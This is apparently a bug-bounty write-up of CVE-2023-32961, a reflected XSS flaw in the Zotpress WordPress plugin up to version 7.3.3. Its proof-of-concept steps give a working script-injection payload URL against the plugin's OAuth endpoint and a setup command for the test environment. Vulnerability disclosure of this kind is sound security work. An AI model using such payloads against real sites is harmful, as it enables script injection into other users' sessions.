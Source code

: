 ```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis"
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```



## Component details


---


### Component name


Zotpress


### Vulnerable version


≤ 7.3.3


### Component slug


zotpress


### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


## Pre-requisite


---


Unauthenticated


## Vulenerability details


---


### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		
{% raw %}
```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
```
{% endraw %}


- Easy to install php oauth extension:
	- One Line Command :

		
{% raw %}
```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
```
{% endraw %}


- Tested in wordpress:latest Docker image.

### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

